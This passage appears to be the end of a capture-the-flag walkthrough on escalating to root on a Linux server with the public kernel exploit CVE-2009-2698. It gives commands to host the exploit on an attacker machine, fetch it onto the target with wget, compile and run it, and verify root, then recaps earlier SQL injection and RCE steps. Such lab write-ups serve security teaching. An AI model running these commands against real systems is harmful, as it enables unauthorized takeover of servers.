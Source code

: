 ```bash
2. Find an Exploit
This version is vulnerable to CVE-2009-2698, a publicly known exploit.


3. Transfer the Exploit to the Server

Start a Python HTTP server on your machine:

python3 -m http.server 8000

On the server, download the exploit:

wget http://<YOUR_IP>:8000/0x82-CVE-2009-2698.c



4. Compile and Execute the Exploit

Compile the exploit:

gcc -o exploit 0x82-CVE-2009-2698.c

Run it:

./exploit



5. Check Your Privileges
Run:

id

If it says uid=0(root), you now have full control of the server!




---

Conclusion

Congratulations! You’ve successfully:

1. Exploited a SQL Injection vulnerability to bypass a login page.


2. Used Remote Code Execution to gain server access.


3. Escalated privileges to root using a Linux kernel exploit.



Lessons Learned:

Always validate inputs to avoid SQL Injection and RCE vulnerabilities.

Keep systems updated to patch known exploits.


This challenge shows why cybersecurity is so important in today’s world. I hope this guide was helpful—see you in the next walkthrough!
```